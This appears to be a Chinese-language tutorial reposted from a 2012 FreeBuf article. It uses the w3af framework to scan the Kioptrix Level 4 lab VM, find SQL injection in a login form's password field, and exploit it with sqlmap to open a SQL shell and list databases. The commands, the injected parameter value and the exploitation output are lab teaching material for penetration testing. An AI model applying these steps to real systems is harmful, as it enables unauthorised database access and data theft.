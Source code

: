 ```yaml
---
title: "w3af 简单使用教程"
pubDate: 2012-08-25T21:36:30+08:00
lastmod: 2012-08-25T21:37:30+08:00
keywords: [w3af 简单使用教程]
description: "w3af 简单使用教程"
categories: [Misc]

---
```


本文为 2012 年在 [FreeBuf](https://www.freebuf.com/ "FreeBuf") 发表的文章，原地址为：[w3af 简单使用教程](https://www.freebuf.com/articles/5472.html "w3af 简单使用教程")。以下内容均无修改。

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

## 0×00 概述

在BackTrack5R3下使用w3af测试Kioptrix Level 4的SQL注入漏洞.

## 0×01 简介

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

## 0×02 安装

```shell
root@bt:~# apt-get install w3af
```

## 0×03 启动

```shell
root@bt:~# cd /pentest/web/w3af/
root@bt:/pentest/web/w3af# ./w3af_console
```

## 0×04 漏洞扫描配置

```plaintext
w3af>>> plugins
//进入插件模块
w3af/plugins>>> list discovery 
//列出所有用于发现的插件
w3af/plugins>>> discovery findBackdoor phpinfo webSpider 
//启用findBackdoor phpinfo webSpider这三个插件
w3af/plugins>>> list audit 
//列出所有用于漏洞的插件
w3af/plugins>>> audit blindSqli fileUpload osCommanding sqli xss 
//启用blindSqli fileUpload osCommanding sqli xss这五个插件
w3af/plugins>>> back
//返回主模块
w3af>>> target
//进入配置目标的模块
w3af/config:target>>> set target http://192.168.244.132/
//把目标设置为http://192.168.244.132/
w3af/config:target>>> back
//返回主模块
```

## 0×05 漏洞扫描

```plaintext
w3af>>> start
```

```plaintext
---
New URL found by phpinfo plugin: http://192.168.244.132/
New URL found by phpinfo plugin: http://192.168.244.132/checklogin.php
New URL found by phpinfo plugin: http://192.168.244.132/index.php
New URL found by webSpider plugin: http://192.168.244.132/
New URL found by webSpider plugin: http://192.168.244.132/checklogin.php
New URL found by webSpider plugin: http://192.168.244.132/index.php
Found 3 URLs and 8 different points of injection.
The list of URLs is:
- http://192.168.244.132/index.php
- http://192.168.244.132/checklogin.php
- http://192.168.244.132/
The list of fuzzable requests is:
- http://192.168.244.132/ | Method: GET
- http://192.168.244.132/ | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/ | Method: GET | Parameters: (view="phpinfo")
- http://192.168.244.132/checklogin.php | Method: GET
- http://192.168.244.132/checklogin.php | Method: POST | Parameters: (myusername="", mypassword="")
- http://192.168.244.132/index.php | Method: GET
- http://192.168.244.132/index.php | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/index.php | Method: GET | Parameters: (view="phpinfo")
Blind SQL injection was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The injectable parameter is: "mypassword". This vulnerability was found in the requests with ids 309 to 310.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "supplied argument is not a valid MySQL". The error was found on response with id 989.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "mysql_". The error was found on response with id 989.
SQL injection in a MySQL database was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The sent post-data was: "myusername=John&Submit=Login&mypassword=d'z"0". The modified parameter was "mypassword". This vulnerability was found in the request with id 989.
Scan finished in 19 seconds.
---
//开始扫描
```

## 0×06 漏洞利用配置

```plaintext
w3af>>> exploit 
//进入漏洞利用模块
w3af/exploit>>> list exploit
//列出所有用于漏洞利用的插件
w3af/exploit>>> exploit sqlmap 
//使用sqlmap进行SQL注入漏洞的测试
```

```plaintext
---
Trying to exploit using vulnerability with id: [1010, 1011]. Please wait...
Vulnerability successfully exploited. This is a list of available shells and proxies:
- [0] <sql object ( dbms: "MySQL >= 5.0.0" | ruser: "root@localhost" )>
Please use the interact command to interact with the shell objects.
---
//测试存在SQL注入漏洞
//这里要记住shell objects(这里是0),等一下要用到
0x07 漏洞利用
w3af/exploit>>> interact 0
//interact + shell object就可以利用了

---
Execute "exit" to get out of the remote shell. Commands typed in this menu will be run through the sqlmap shell
w3af/exploit/sqlmap-0>>> 
---
//sqlmap的一个交互式模块

w3af/exploit/sqlmap-0>>> dbs   

---
Available databases:  [3]:
[*] information_schema
[*] members
[*] mysql
---
//成功获得数据库信息
```
